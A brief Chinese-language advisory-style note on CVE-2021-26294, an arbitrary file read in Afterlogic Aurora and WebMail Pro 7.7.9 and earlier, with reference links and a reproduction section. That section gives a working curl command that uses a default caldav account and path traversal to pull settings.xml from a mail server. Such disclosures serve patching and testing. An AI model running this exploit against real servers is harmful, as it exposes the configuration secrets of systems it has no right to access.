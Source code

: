 # Afterlogic Aurora & WebMail Pro 任意文件读取 CVE-2021-26294

# Afterlogic Aurora & WebMail Pro 任意文件读取CVE-2021-26294

## 漏洞描述

攻击者可以通过caldav_public_user@localhost用户登录，不需要其它用户信息就可以读取配置文件从而获得敏感信息。

参考链接：

- http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26294
- https://github.com/E3SEC/AfterLogic/blob/main/CVE-2021-26294-exposure-of-sensitive-information-vulnerability.md
- https://forum.ywhack.com/thread-115326-1-8.html

## 漏洞影响

```
WebMail Pro ≤ 7.7.9
Afterlogic Aurora ≤ 7.7.9
```

## 漏洞复现

```
curl -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/personal/%2e%2e/%2e%2e//%2e%2e//%2e%2e/data/settings/settings.xml"
```


